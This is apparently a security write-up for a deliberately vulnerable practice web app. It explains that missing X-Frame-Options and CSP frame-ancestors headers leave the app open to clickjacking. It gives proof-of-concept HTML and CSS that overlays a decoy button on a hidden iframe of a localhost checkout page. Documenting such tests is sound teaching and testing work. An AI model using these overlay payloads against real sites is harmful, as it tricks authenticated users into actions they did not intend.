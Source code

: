 # Clickjacking
This attack tricks users into clicking on a button, link, or other interactable on an attacker controlled/compromised website that performs an unintendded action on an authenticated and/or trusted site.

## Exploitation
**Location** _Entire Application_

Clickjacking is present since the X-Frame-Options / Content-Security-Policy: frame-ancestors directive are both not properly implemented on the application.  For exploitation a more intricately designed website can be made to simulate a realistic attacker website meant to scam users authenticated to vulnerablecandle, the attack can be tested through this example HTML text:

    # HTML
    <button style="z-index: 2; position: absolute; margin-left: 100px; margin-top: 30px;" class="button"> Remove Add</button>
    <div style="overflow: hidden; margin: 15px auto; max-width: 50px;">
        <iframe scrolling="no" src="http://localhost:4200/checkout" style="z-index: 1; position: absolute; border: 0px none; margin-left: -650px; height: 200px; margin-top: -100px; width: 200px;"></iframe>
    </div>

    # CSS
    .button {
    background-color: #4CAF50;
    border: none;
    color: white;
    padding: 32px 32px;
    text-align: center;
    text-decoration: none;
    display: block;
    font-size: 16px;
    margin: 4px 2px;
    cursor: pointer;
    }

For the sake of simplcity the recommended way to test for Clickjacking is simply testing an iframe like below:

    <html>
        <body>
            <iframe src="http://localhost:4200/checkout"></iframe>
        </body>
    </html>
    
